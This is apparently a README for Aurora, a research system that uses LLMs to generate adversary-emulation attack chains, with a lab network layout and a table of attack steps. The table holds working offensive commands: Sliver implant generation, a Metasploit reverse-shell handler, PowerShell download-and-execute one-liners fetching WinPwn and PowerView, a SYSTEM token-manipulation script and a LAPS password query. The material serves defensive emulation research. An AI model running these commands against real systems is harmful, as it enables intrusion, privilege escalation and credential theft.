

# Introduction
<p><a href="https://arxiv.org/pdf/2407.16928"></a></p>

- Aurora automatically creates cyberattacks using third-party tools and mimics real-world attackers by analyzing threat intelligence reports.

- We designed a modular system to organize attack steps and combined classical planning with LLM to solve challenges in building multi-step attacks.
  
- Experiments proved Aurora generates higher-quality and more diverse attack chains than existing tools or cutting-edge AI models.
 
- We published the first large-scale, automatically generated dataset with 1,000+ attack chains, including scripts and environments.
  
Our paper: [From Sands to Mansions: Simulating Full Attack Chain with LLM-Organized Knowledge](https://arxiv.org/pdf/2407.16928)

# Attack Demos
This repo stores attack demos generated by Aurora, which can be found in the `examples/` folder.
Each folder in `examples/` contains an attach chain, which includes the emulation plan details and attack steps.

## Emulation Plan Details

| Field           | Description       |
|:-------------   |:------------------|
| Adversary Name  | This refers to the name or codename of the attacker being simulated in the exercise. |
| Creation Time   | This indicates the exact date and time when the emulation plan or attack scenario was created. |

## Attack Step

| Field        | Description          |
|:-------------|:------------------|
| uuid  | A unique identifier for the attack step, ensuring that each step can be individually referenced and tracked. |
| name   | A human-readable name for the attack step, which describes what the step aims to achieve or the action being performed. |
| id   | An identifier that may be used within a specific framework or system to reference the attack step. |
| source   | The origin or creator of the attack step, which can indicate whether it was developed internally, derived from a known threat intelligence source, or part of a manual process. |
| supported_platforms   | The operating systems or environments on which the attack step can be executed. |
| tactics   | The high-level goals or phases of the attack that this step supports. |
| technique   | The specific methods or technologies used in the attack step.  |
| description   | A detailed explanation of what the attack step does. |
| executor   | The command, script, or series of actions that need to be executed to carry out the attack step. |
| arguments   | Any parameters or inputs required by the executor to function correctly. |
| preconditions   | The conditions that must be met before the attack step can be successfully executed.  |
| effects   | The outcomes or changes that result from executing the attack step. |

# Emulation Scenario
## Emulation Infrastructure
<p align="center">
  
</p>

### Attacker Information

| System        | IP Address          | Version          | username/password |
|:-------------|:------------------|:------------------|:------------------|
| Kali   | 10.0.0.101 | 2024.1  | kali/kali |
| Windows10   | 10.0.0.102 | Enterprise 22H2 | attacker/123456 |

1. **Kali Attack Platform**: the Kali system has the Apache service enabled to simulate a phishing website attack. On the desktop, there are implants generated using the Sliver command for both Windows and Linux, which can be directly used for testing.
    - C2 Framework
        - [Metasploit Framework](https://github.com/rapid7/metasploit-framework)
        - [Sliver Framework](https://sliver.sh/)
    - Other tools
        - [atomic-red-team](https://github.com/redcanaryco/atomic-red-team)

Running the `msfconsole` command in the Kali terminal allows you to use the Metasploit framework, and running `sliver` or `sliver-server` enables you to use the Sliver framework.

2. **Windows Attack Platform**: the windows host has undergone the following modifications: the firewall has been disabled, Windows Security has been turned off, the automatic update feature has been deactivated, and VMware Tools has been installed to facilitate moving or copying files between the physical machine and virtual machines.
    - C2 Framework
        - [Metasploit Framework](https://windows.metasploit.com/)
        - [Sliver Framework](https://sliver.sh/)
    - Other tools
        - [atomic-red-team](https://github.com/redcanaryco/atomic-red-team)

The windows tools are located in the `tools` folder on the desktop. Double-clicking `msfconsole.bat` allows you to use the Metasploit framework, and running `sliver-server_windows.exe` in the command line enables you to use the Sliver framework.


### Firewall Information

| System        | IP Address          | Version          | username/password |
|:-------------|:------------------|:------------------|:------------------|
| pfSense   | 192.168.199.159 |  CE-2.6.0   |  --- |

The firewall configuration is as follows:

| Interface        | IP Address          | Related Host          | 
|:-------------|:------------------|:------------------|
| WAN(wan) -> em0   | 192.168.199.159/24 |  firewall-pfSense   |
| LAN(lan) -> em1   | 192.168.1.1/24 |  victim-Windows10,victim-Ubuntu,victim-macOS   |
| OPT1(opt1) -> em2   | 10.0.0.1/24 |  attacker-Kali,attacker-Windows10,DNS_server-Debian   |

### DNS_server Information

| System        | IP Address          | Version          | username/password |
|:-------------|:------------------|:------------------|:------------------|
| Debian   | 10.0.0.201 | 12.9.0  | server/123456  |

We have configured a DNS server using Debian. This server is intended to simulate a scenario in which victim hosts download malicious files to their local systems by accessing a domain name. Additionally, the DNS server can be used to monitor traffic, facilitating subsequent analysis.<br>
You can simulate the attack process of downloading the implant to the local system on the victim-Windows 10 machine by accessing the phishing website through a browser and visiting the specified domain name `sliver.labnet.local`.
<p align="center">
  
</p>


### Victim information

| System        | IP Address          | Version          | username/password |
|:-------------|:------------------|:------------------|:------------------|
| Windows10   | 192.168.1.101 | Enterprise 22H2 | victim/123456 |
| Ubuntu   | 192.168.1.102 | 22.04 | victim/123456 |
| macOS   | 192.168.1.103 | Monterey 12.0 | victim/123456 |


### Infrastructure Download

You can download the attack simulation environment from [here](https://pan.quark.cn/s/8604de908cfc).<br>
The simulation environment has been exported from VMware and compressed into a zip format, so the virtual machine files are quite large. If you need to test the attack chain, you can download the following four virtual machines: attacker-Kali, DNS-server, firewall-pfSense, and victim-Windows10.After downloading, simply unzip the file and import it into VMware to use the simulation environment.


## Scenario Steps
Each `uuid` encompasses an `executor`, within which the `command` parameter specifies the actual attack command that needs to be executed. You should proceed manually through the attack steps in the sequence of the UUIDs.

| Steps        | Description	                  | Executor                 |
|:-------------|:-------------------------------|:-------------------------|
| Implant Generation | Sliver generates implant for Windows platform and enables http monitoring. | # sliver<br>> generate --arch amd64 --os windows --http 10.0.0.101 --save .<br>> http |
| Execution | Download&Execute the sliver implant.   | # sliver<br>> sessions -i session_id |
| Directory Disclosure | The pwd command in a Sliver session prints the current working directory of the active session. | # sliver<br>> pwd   |
| Build meterpreter session  |Use sliver and msf linkage, msf starts monitoring, sliver bounces a shell back,so that msf establishes a shell connection with the target host. | # msfconsole<br>> use exploit/multi/handler<br>> set payload windows/x64/meterpreter_reverse_https<br>> set lport 9091<br>> set lhost 192.168.130.128<br>> exploit -j -z<br> # sliver<br>> msf --lhost 192.168.130.128 -l 9091<br># msfconsole<br>> sessions 1 |
| Process Enumeration | The command lists remote system processes. | #sliver<br>> ps  |
| User Context Verification | Simply collect the user information of the target machine. | # sliver<br>> whoami   |
| Interactive Shell Access | Open an interactive shell on the compromised machine.   |  # sliver<br>> shell |
| Printercheck  | To search for printers or potential vulnerabilities related to printers. | # powershell<br>> $S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'<br>> iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')<br>> printercheck -noninteractive -consoleoutput |
| Enumerate Active Directory Users  | Utilizing ADSISearcher to enumerate users within Active Directory. | # powershell<br>> ([adsisearcher]"objectcategory=user").FindAll(); ([adsisearcher]"objectcategory=user").FindOne()  |
| Get-ForestTrust | Use PowerView's Get-ForestTrust to show forest trust info.   | # powershell<br>> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12<br>IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-ForestTrust -Verbose |
| Suspicious LAPS Query           | Executes LDAP query via Get-ADComputer to list Microsoft LAPS attributes.      | # powershell<br>> Get-ADComputer #{hostname} -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime   |
| WMIObject Group Discovery   | To enumerate local groups on the endpoint. | # powershell<br>> Get-WMIObject Win32_Group |
| Enumerate accounts    | Enumerate all accounts via PowerShell. |  # powershell<br>> net user /domain<br>> get-localgroupmember -group Users<br>> get-aduser -filter *  |
| Pop System Shell | Pop System Shell using Token Manipulation technique via function of WinPwn.   | # powershell<br>> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1');Get-WinLogonTokenSystem  |
|UI Control Manipulation          | The command is used to control user interface components on a compromised system.      | # msfconsole<br>> uictl [enable/disable] [keyboard/mouse/all]  |


**_Licensing_**
```
To discuss licensing opportunities, please reach out to aurora@[] or directly to .
```

